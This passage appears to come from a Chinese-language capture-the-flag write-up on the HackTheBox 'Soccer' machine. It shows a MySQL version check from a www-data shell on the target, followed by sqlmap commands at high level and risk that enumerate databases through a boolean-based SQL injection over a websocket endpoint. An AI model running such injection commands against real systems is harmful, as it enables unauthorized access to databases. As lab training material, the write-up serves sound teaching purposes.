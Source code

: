 做進一步SQLI類型測試，

接 `and` 去測version，確認能夠做boolean based，

先從靶機抓mysql version

```bash
(remote) www-data@soccer:/tmp$ mysql -V
mysql  Ver 8.0.31-0ubuntu0.20.04.2 for Linux on x86_64 ((Ubuntu))
```

確定測試sql `version()` 傳入 `8` 回傳 `True`

![](/assets/obsidian/21f3503d6e0ea68be6721b38703c5e35.png)

**Sqlmap:**

> **Sqlmap Websockets**
> Sqlmap supports websockets, **no need to use below proxy method**
> ```bash
> sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
{: .prompt-tip }
 >```

將 websocket 轉接到 `localhost:8081` 後 - [Tutorial](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

根據之前所取得的信息指定 `technique`、`dbms` 節省時間

```bash
sqlmap -u "http://localhost:8081/?id=78319" -p id --random-agent --dbms mysql --dbs --technique B --level 5 --risk 3 -t 5
```

因為是Boolean Based，用`--dbs`、`--tables`、`--columns` 慢慢抓
